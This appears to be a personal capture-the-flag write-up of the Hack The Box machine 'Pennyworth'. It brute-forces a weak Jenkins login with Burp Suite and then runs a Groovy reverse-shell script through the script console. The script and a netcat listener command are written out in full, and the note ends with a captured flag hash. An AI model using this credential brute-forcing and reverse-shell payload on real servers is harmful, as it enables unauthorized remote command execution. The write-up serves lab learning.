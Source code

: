 2022-07-07 18:23
source: [HTB](obsidian://open?vault=iswearthisismylast&file=Files%2FPennyworth.pdf)
tags: #research #htb #pennyworth #cybersec #java #Attacks/Weak_Password #jenkins 

# Pennyworth

## Thought Process
As always, [[nmap]] scan for ports. 

I tried to access the ip after putting into `/etc/hosts` but wouldn't load.
- This was due to the port running on 8080 and also on http not https

Hit a login screen for [[Jenkins]]
- Tried looking for default username and password, but username is Admin and password is random generated and resides in a protected folder in the server.
- The box description had weak password, so decided to load in [[Burp Suite]] and bruteforce with rockyou.txt
     - rockyou.txt is too big for my small brain kali linux.  running shorter version
     - 302 is a http redirect [[HTTP Response Status Codes]] This bamboozled me. The password was able to be found using shortened rockyou, but I didn't know it was correct as I was looking for 200 code.

Checked version of Jenkins, it is confirmed secure after checking CVE
    [[Jenkins#Hacking]]
 That is where I got stuck

## Summary
Use [[nmap]], check service.
Its [[Jenkins]]. Try bruteforcing. Its root:password. This was sketch as most google searches say the Jenkins password is random gen. But... htb disagrees wtf anyways after logging in, It has [[groovy]] enabled. This is where I can send arbitrary groovy command to the server. 
Goal is to open a [[Reverse Shell]]. We can use [[PayloadsAllTheThings]] 
Grab this script for groovy
```
String host="{your_IP}";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(),
si=s.getInputStream();OutputStream
po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
this script attempts to connect to my ip thru port 8000 and run bash to do it.
if our target ran windows, it would be `cmd.exe`
Get IP by using [[ip]] a | grep tun0 (stands for tunnel0 (vpn))
run [nc](netcat) -lvnp 8000 on our server
now run the script on jenkins, (the script above has newline so it won't work lmao just grab it from the link) which then we will be able to see that a connection happened
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8000        
listening on [any] 8000 ...
connect to [10.10.16.5] from (UNKNOWN) [10.129.37.11] 50754
```
now, cat root/flag.txt.
ez.
9cdfb439c7876e703e307864c9167a15